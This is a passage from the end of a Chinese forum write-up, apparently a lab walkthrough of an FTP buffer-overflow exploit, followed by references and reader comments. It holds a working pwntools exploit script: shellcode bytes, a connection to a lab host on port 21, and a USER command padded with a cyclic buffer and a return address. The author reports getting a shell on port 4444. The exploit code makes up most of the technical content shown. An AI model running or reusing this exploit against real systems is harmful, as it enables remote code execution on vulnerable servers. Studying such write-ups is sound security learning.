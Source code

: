 ```
buf += b"\x1d\x97\x76\x55\xcb\x05\x20\xcf\xe9\xd7\xb4\x28\xa9"
buf += b"\x03\x05\xb6\x30\xc1\x31\x9c\x22\x1f\xb9\x98\x16\xcf"
buf += b"\xec\x76\xc0\xa9\x46\x39\xba\x63\x34\x93\x2a\xf5\x76"
buf += b"\x24\x2c\xfa\x52\xd2\xd0\x4b\x0b\xa3\xef\x64\xdb\x23"
buf += b"\x88\x98\x7b\xcb\x43\x19\x8b\x86\xc9\x08\x04\x4f\x98"
buf += b"\x08\x49\x70\x77\x4e\x74\xf3\x7d\x2f\x83\xeb\xf4\x2a"
buf += b"\xcf\xab\xe5\x46\x40\x5e\x09\xf4\x61\x4b"

io = remote("192.168.112.146", 21)
print(io.recv())
payload = flat("USER ", cyclic(2000), 0x77f8b227, buf)
io.sendline(payload)
print(io.recv())

```

在攻击机发送 exploit，连接靶机 4444 端口成功

![](https://attach.52pojie.cn/forum/202104/13/155352fzna7kppzavnn7ax.png)

五、参考文献
------

*   [https://www.exploit-db.com/exploits/26471](https://www.exploit-db.com/exploits/26471)
*   [https://www.cnblogs.com/cnsec/p/13286514.html](https://www.cnblogs.com/cnsec/p/13286514.html)

![](https://avatar.52pojie.cn/data/avatar/001/00/27/01_avatar_middle.jpg)genliese  
熟悉的漏洞![](https://static.52pojie.cn/static/image/smiley/default/4.gif) ![](https://avatar.52pojie.cn/data/avatar/000/69/10/54_avatar_middle.jpg) supper800 精华帖 啊，过程分析也很到位，这是应该能上杂志的文章。![](https://avatar.52pojie.cn/data/avatar/001/25/59/07_avatar_middle.jpg)ttao88 不错呀，好文![](https://avatar.52pojie.cn/data/avatar/001/44/87/65_avatar_middle.jpg)发表于 哎，我还是看不懂，果然我还是个菜机 ![](https://avatar.52pojie.cn/data/avatar/001/67/46/23_avatar_middle.jpg) hqz66

> [发表于 发表于 2021-4-14 11:10](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38030497&ptid=1416459)  
> 哎，我还是看不懂，果然我还是个菜机

一步步来，我也是个菜鸡 ![](https://avatar.52pojie.cn/data/avatar/001/62/37/80_avatar_middle.jpg) zglujun 学习到了 ![](https://avatar.52pojie.cn/data/avatar/001/65/26/88_avatar_middle.jpg) wuai10753 感谢感谢![](https://avatar.52pojie.cn/data/avatar/001/43/23/78_avatar_middle.jpg)赵嘉俊 好高端的样子，看不懂呀